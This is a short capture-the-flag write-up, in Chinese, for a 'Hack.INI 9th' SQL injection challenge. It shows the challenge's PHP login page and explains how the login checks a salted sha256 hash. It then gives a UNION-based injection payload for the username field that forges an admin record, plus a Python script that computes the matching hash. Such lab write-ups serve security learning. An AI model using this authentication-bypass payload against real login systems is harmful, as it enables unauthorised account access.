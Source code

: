 ```php

<!DOCTYPE html>
<html>
<head>
    <title>Hack.INI 9th - SQLi</title>
</head>
<body>
    <?php if (isset($logged_in) && $logged_in): ?>
    <p>Welcome back admin! Have a flag: <?=htmlspecialchars($flag);?><p>
    <?php else: ?>
    <form method="post">
        <input type="text" placeholder="Username" name="user" required>
        <input type="password" placeholder="Password" name="pass" required>
        <button type="submit">Login</button>
        <br><br>
        <?php if (isset($err)) echo $err; ?>
    </form>
    <?php endif; ?>
    <!-- <a href="/?pls_help">get some help</a> -->
</body>
</html>
```



登录逻辑分析：

- 传入的username取找到users表中的记录
- 将查询到的记录存入result中，取出password字段
- 将上一步取到的password的值以$进行分割，第一部分是密码加密后的hash，第二部分是加密用的salt
- 将用户输入的password和salt进行拼接，拼接后的字符串进行sha256加密
- 最后将hash与上一步加密了的字符串进行比较，相同就打印flag





构造：

```
user=admin'union select 1,'52a6eb687cd22e80d3342eac6fcc7f2e19209e8f83eb9b82e81c6f3e6f30743b$1
pass=123
```



```python
import hashlib

password="123"
salt="1"

password_salt = password + salt

hash_object = hashlib.sha256(password_salt.encode())

hash_hex=hash_object.hexdigest()

print(hash_hex)
```
